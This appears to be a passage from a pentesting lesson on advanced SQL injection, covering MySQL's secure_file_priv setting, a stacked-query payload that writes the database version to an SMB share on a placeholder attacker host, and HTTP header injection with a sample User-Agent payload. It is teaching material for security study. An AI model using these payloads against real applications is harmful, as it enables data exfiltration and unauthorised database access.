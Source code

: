- **When secure_file_priv is Set**: MySQL will restrict file operations such asÂ **INTO OUTFILE**Â to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If theÂ `secure_file_priv`Â variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

Attackers typically do not have direct access to check the value of the secure_file_priv variable. As a result, they must rely on hit-and-trial methods to determine if and where they can write files, testing various paths to see if file operations succeed.  

**Preparing the Payload**

To exploit this vulnerability, the attacker crafts a payload to inject into theÂ `visitor_name`Â parameter. The payload will be designed to execute an additionalÂ SQLÂ query that writes the database version information to an externalÂ SMBÂ share.  

```php
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

Let's dissect the above payload:

- `1'`: Closes the original string within the SQL query.
- `;`: Ends the firstÂ SQLÂ statement.
- `SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';`: Executes a new SQL statement that retrieves the database version and writes it to an SMB share at \\ATTACKBOX_IP\logs\out.txt.
- `--`: Comments the rest of the originalÂ SQLÂ query to prevent syntax errors.

To utilize the payload, the attacker would visit the URL that creates a file in an externalÂ SMBÂ share.Â 

To access the file, use theÂ `ls /tmp`Â to see the file received in theÂ `/tmp`Â directory as shown below:Â   


```shell-session
thm@machine$ls /tmp
out.txt
```

# Other techniques
---

AdvancedÂ SQLÂ injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

## HTTPÂ Header Injection


![user-agent injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785793)


HTTPÂ headers can carry user input, which might be used inÂ SQLÂ queries on the server side.Â 
If these inputs are not sanitised, it can lead toÂ SQLÂ injection. The technique involves manipulatingÂ HTTPÂ headers (likeÂ **User-Agent**,Â **Referer**, orÂ **X-Forwarded-For**) to injectÂ SQLÂ commands. The server might log these headers or use them inÂ SQLÂ queries. For example, a malicious User-Agent header would look likeÂ `User-Agent: ' OR 1=1; --`.Â If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.
